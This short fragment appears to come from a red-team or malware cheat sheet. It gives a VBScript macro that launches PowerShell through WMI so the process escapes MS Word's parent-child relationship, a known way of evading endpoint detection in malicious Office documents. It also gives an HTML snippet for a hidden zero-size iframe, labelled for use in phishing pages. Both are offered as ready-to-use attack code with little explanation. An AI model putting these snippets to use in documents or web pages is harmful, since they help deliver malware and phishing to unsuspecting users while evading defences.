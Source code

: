 - Break MS Word parent-child releationship 
	```VBScript
	Dim proc As Object
	Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
	proc.Create "powershell"
	```

- Embedding hidden iframe in phishing page
```HTML
<iframe src="<URI/URL>" width="0" height="0" frameborder="0" tabindex="-1" title="empty" style=visibility:hidden;display:none"> </iframe>
```

